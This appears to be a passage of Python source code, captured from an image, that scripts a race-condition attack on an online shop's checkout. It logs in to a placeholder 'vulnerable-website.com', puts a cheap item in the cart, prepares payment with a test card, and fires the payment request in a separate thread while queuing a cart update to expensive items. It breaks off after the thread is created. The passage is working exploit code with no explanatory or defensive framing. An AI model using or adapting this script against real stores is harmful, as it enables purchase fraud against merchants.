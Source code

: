        def process_payment(session, url, payment_data):
           response = session.post(url, json=payment_data)
           return response
       
       def update_cart(session, url, cart_data):
           response = session.post(url, json=cart_data)
           return response
       
       # Set up session
       session = requests.Session()
       session.headers = {
           "User-Agent": "Mozilla/5.0 ...",
           "Content-Type": "application/json"
       }
       
       # Login and set up session
       login_response = session.post(
           "https://vulnerable-website.com/login",
           json={"username": "test_user", "password": "password123"}
       )
       
       # Add cheap item to cart first
       cheap_item = session.post(
           "https://vulnerable-website.com/cart/update",
           json={"items": [{"product_id": "cheap-item", "quantity": 1}]}
       )
       
       # Prepare payment data
       payment_data = {
           "payment_method": "credit_card",
           "card_number": "4111111111111111",
           "expiry": "12/23",
           "cvv": "123"
       }
       
       # Prepare expensive cart update
       expensive_items = {
           "items": [
               {"product_id": "expensive-item-1", "quantity": 1},
               {"product_id": "expensive-item-2", "quantity": 1}
           ]
       }
       
       # Execute payment request in a thread
       payment_thread = threading.Thread(
           target=process_payment,
           args=(session, "https://vulnerable-website.com/checkout/process-payment", payment_data)
       )
       